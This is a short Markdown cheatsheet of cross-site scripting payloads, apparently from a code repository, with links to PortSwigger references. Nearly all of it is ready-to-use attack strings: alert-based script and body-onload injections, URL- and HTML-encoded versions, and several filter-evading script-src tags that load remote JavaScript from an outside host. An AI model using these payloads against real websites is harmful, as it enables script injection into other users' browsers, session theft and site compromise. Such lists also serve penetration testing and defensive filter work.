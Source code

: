 # XSS Cheatsheet

Resources: 
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://portswigger.net/research/xss-without-parentheses-and-semi-colons

XSS Payloads references below:
- https://aerst.one/p/xss.html
- https://thegetch.github.io/x


## In `<body>` tag:

```javascript
<body onload=alert('test1')>
```

## In `<script>` tags:

```javascript
<script>alert(1);</script>
```

```javascript
<script>alert("XSS");</script>
```

- URL encoded:`%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%58%53%53%22%29%3b%3c%2f%73%63%72%69%70%74%3e`
- HTML encoded:`&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x22;&#x58;&#x53;&#x53;&#x22;&#x29;&#x3b;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;`

No quotes:

```javascript
<script src=//thegetch.github.io/x></script>
```

Added spaces:

```javascript
<script src = //thegetch.github.io/x></script>
```

With quotes:

```javascript
<script src="//thegetch.github.io/x"></script>
```

Other alternatives:

```javascript
<script x src = //thegetch.github.io/x></script>
```

```javascript
< SCRIPT X SRC = //THEGETCH.GITHUB.IO/X></SCRIPT>
```
